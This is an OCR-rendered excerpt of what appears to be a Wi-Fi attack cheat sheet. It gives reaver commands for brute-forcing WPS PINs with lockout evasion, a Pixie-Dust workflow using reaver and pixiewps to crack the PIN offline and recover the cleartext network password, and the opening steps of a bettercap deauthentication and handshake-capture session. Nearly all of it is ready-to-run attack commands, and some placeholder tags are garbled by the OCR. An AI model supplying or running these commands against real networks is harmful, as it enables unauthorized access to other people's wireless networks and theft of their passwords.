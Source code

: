 #### -r = After X attemps, sleep for Y seconds

reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv -L -N -d 15 -T .5 -r 3:15

#### Pixie-Dust Attack

#### Done with Reaver + PixieWPS

#### This attack is based on seed / false random

#### Start reaver, we need the PKE, PKR, e-hash 1 & e-hash 2, E-nonce / R-nonce

#### and the authkey from Reaver to use for pixiewps

reaver -i wlan0mon -c 6 -b 00:23:69:48:33:95 -vv -S

#### Now using pixiexps, you can crack PIN offline

pixiewps -e <pke>-r <pkr>-s <e-hash1>-z <e-hash2>-a <authkey>-n</authkey></e-hash2></e-hash1></pkr></pke>

#### Then, you can use the PIN with reaver to get to cleartext password

reaver -i <monitor interface="">-b <bssid>-c <channel>-p</channel></bssid></monitor>

#### Bettercap Pwning (https://www.bettercap.org/modules/) {#bettercap-pwning-httpswwwbettercaporgmodules}

#### Deauth and 4-way handshake attack

sudo bettercap -iface wlan0

# Start the monitoring mode

> wifi.recon on

# Set the AP sorting by clients number

> set wifi.show.sort clients desc

# Every 1 sec, clear view and display an updated one

> set ticker.commands 'clear; wifi.show'
> ticker on

# Set the target channel

> wifi.recon.channel 1
